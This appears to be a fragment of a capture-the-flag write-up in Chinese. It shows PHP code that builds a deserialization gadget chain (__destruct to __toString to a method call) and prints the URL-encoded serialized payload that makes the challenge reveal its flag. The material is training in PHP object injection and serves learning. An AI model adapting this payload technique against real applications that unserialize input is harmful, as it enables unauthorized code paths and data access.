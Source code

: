 
先构造序列化

```php
<?php
class w44m{

  private $admin = 'aaa';

  public function setAdmin(string $admin): void
  {
    $this->admin = $admin;
  }

  public function setPasswd(string $passwd): void
  {
    $this->passwd = $passwd;
  }
  protected $passwd = '123456';

  public function Getflag(){
    if($this->admin === 'w44m' && $this->passwd ==='08067'){
      include('flag.php');
      echo $flag;
    }else{
      echo $this->admin;
      echo $this->passwd;
      echo 'nono';
    }
  }
}

class w22m{
  public $w00m;
  public function __destruct(){
    echo $this->w00m;
  }
}

class w33m{
  public $w00m;
  public $w22m;
  public function __toString(){
    $this->w00m->{$this->w22m}();
    return 0;
  }
}

$a = new w22m();
$b = new w33m();
$c = new w44m();
$a->w00m = $b;
$b->w00m = $c;
$b->w22m = 'Getflag';
$c->setAdmin('w44m');
$c->setPasswd('08067');
echo urlencode(serialize($a));
// O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D
```

